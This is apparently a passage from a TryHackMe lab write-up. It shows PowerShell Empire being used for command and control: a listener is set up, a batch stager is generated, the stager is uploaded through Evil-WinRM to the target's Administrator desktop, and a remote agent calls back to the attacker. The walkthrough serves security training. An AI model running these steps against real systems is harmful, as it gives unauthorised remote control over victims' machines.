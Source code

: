 ```
  |   __|  |  |\/|  | |   ___/  |  | |      /     |   __|                                                                                                                                                    
  |  |____ |  |  |  | |  |      |  | |  |\  \----.|  |____                                                                                                                                                   
  |_______||__|  |__| | _|      |__| | _| `._____||_______|                                                                                                                                                  


       302 modules currently loaded                                                                   

       0 listeners currently active                                                                   

       0 agents currently active    
```

I recommend completing the [PS Empire](https://tryhackme.com/room/rppsempire) machine on TryHackMe if you want to be familiar with the basics of the framework.

```
(Empire: listeners) > uselistener http
(Empire: listeners) > set Host <OpenVPN tun0 interface ip>
(Empire: listeners/http) > agents

(Empire: agents) > usestager windows/launcher_bat

(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
[*] Stager output written out to: /tmp/launcher.bat
```

### Victim machine
```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> upload /tmp/launcher.bat                              
Info: Uploading /tmp/launcher.bat to C:\Users\Administrator\Desktop\launcher.bat                      

                                                                                                      
Data: 6936 bytes of 6936 bytes copied              

Info: Upload successful! 
```

### Attacker machine

```
(Empire: stager/windows/launcher_bat) >
[*] Sending POWERSHELL stager (stage 1) to 10.10.81.211
[*] New agent URPFXD5E checked in
[+] Initial agent URPFXD5E from 10.10.81.211 now active (Slack)
[*] Sending agent (stage 2) to URPFXD5E at 10.10.81.211

(Empire: stager/windows/launcher_bat) > agents
[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
```